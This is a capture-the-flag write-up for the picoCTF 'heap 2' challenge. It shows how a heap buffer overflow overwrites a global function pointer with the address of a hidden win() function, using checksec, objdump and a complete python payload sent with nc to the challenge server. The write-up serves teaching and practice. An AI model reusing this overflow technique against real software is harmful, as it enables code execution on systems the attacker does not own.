 # heap 2 #
 
## Overview ##

200 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap #bufferoverflow`

## Description ##

Can you handle function pointers?

## Approach ##

Binary and source are provided for this challenge.

Further modifications to the **[heap 0](../heap%200/heap%200.md)** and **[heap 1](../heap%201/heap%201.md)** challenge, this time replacing the `safe_var` global variable and associated buffer with a global variable named `x`, but still initialised with the string `"bico"` wihin `init()`.

`check_win()` that is invoked by menu item `4` when executing the program to print the flag now uses the value in `x` as a function pointer with signature `void x(void)`.

Given `x` is initialised with a value of `"bico"` attempting to execute the flag prior to any overflow attack results in a segmentation fault as the function pointer is obviously not valid.

Inspecting the provided source further we see a new `win()` function that reads and displays the contents of the `flag.txt` flag file. This function is not called from anywhere in the source.

So our aim is to make `x = &win()`, then use the print flag menu item.

Inspecting the provided binary architecture and security features enabled:

    $ checksec chall
    [*] 'picoCTF/heap-2/chall'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

Disassemble the biniary to obtain function addresses:

    $ objdump -M intel -d chall > chall.objdump.txt

Find the address of `win()` function :

    $ grep win chall.objdump.txt 
    00000000004011a0 <win>:
    00000000004011f0 <check_win>:

So we need to set the contents of `x` to `0x4011a0` to call our target `win()` functon.

Checking the offset of `x` from `input_data` using the provided `Print Heap` menu item to ensure our overflow attack payload hasn't changed from the previous challenges in the series.

    $ ./chall 

    I have a function, I sometimes like to call it, maybe you should change it

    1. Print Heap
    2. Write to buffer
    3. Print x
    4. Print Flag
    5. Exit

    Enter your choice: 1
    [*]   Address   ->   Value   
    +-------------+-----------+
    [*]   0xd606b0  ->   pico
    +-------------+-----------+
    [*]   0xd606d0  ->   bico

The offset remains 32 bytes, so no change to attack payload and we can just replace the `"pico"` of **[heap 1](../heap%201/heap%201.md)** with our target address.

## Solution ##

The final solution is to construct a payload that;
- Select menu item 2 "Write to Buffer" = `b'2\n'`
- Overflows the `input_data` buffer to reach the start of the `x` buffer by outputting 32 `A` characters = `b'A'*32`
- Continue the overflow to write the address of `win()` into `x` buffer, completing the input string to be written = `b'\xa0\x11\x40\x00\x00\x00\x00\x00\n`
- Select menu item 4 "Print Flag" to invoke `*x()` which equals `win()` = `b'4\n'`

When constructing the overflow attack payload I ran into issues with python3 unicode strings when constructing the address, as the conversion to UTF-8 encoding was addition addition bytes in the output. So the command was modified to use the more direct `sys.stdout.buffer.write()` function.

I included the full little-endian address of `win()` however this command will not output the null bytes as indicatd by the warning, but given the added null termination of the `scanf()` to our input we have successfully overwritten the contents of `x` with the valid address (lowest three bytes being non-zero).

    $ echo -e $(python3 -c "import sys; sys.stdout.buffer.write(b'2\n' + b'A'*32 + b'\xa0\x11\x40\x00\x00\x00\x00\x00\n4\n')") | nc mimas.picoctf.net 55335
    bash: warning: command substitution: ignored null byte in input
    
    I have a function, I sometimes like to call it, maybe you should change it
    
    1. Print Heap
    2. Write to buffer
    3. Print x
    4. Print Flag
    5. Exit
    
    Enter your choice: Data for buffer: 
    1. Print Heap
    2. Write to buffer
    3. Print x
    4. Print Flag
    5. Exit
    
    Enter your choice: picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.
